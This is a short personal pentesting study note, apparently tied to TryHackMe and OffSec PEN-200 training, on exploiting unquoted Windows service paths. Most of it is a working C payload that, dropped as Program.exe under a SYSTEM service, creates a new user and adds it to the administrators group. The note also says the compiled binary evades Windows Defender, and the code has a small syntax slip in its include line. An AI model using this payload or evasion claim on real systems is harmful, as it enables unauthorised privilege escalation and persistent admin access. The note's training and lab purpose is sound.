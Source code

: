 # Exploiting Unquoted Paths

author:: Nathan Acks  
date:: 2022-08-17

When Windows encounters an unquoted path it tries *all* possible paths, from shortest to longest. Thus `C:\Program Files\Application Path\App.exe` will cause Windows to look for the following executables, in order:

* `C:\Program.exe`
* `C:\Program Files\Application.exe`
* `C:\Program Files\Application Path\App.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

* [2022-04-21 - TryHackMe: Jr. Penetration Tester](../log/2022-04-21-tryhackme-jr-penetration-tester.md)

## Exploiting Services Running as SYSTEM

If a service is running as SYSTEM, the following code can be inserted (as `Program.exe` or `Application.exe` in the example above) and will add a new user with admin privileges. (`USERNAME` and `PASSWORD` obviously need to be updated to fit the current use case.)

```c
#include <stdlib.h

int main() {
	int i;

	i = system("net user USERNAME PASSWORD /add");
	i = system("net localgroup administrators USERNAME /add");

	return 0;
}
```

As of August 17, 2022, binaries compiled from this code are *not* detected as malicious by Windows Defender.

* [2022-08-17 - OffSec Live: PEN-200](../log/2022-08-17-offsec-live-pen-200.md)
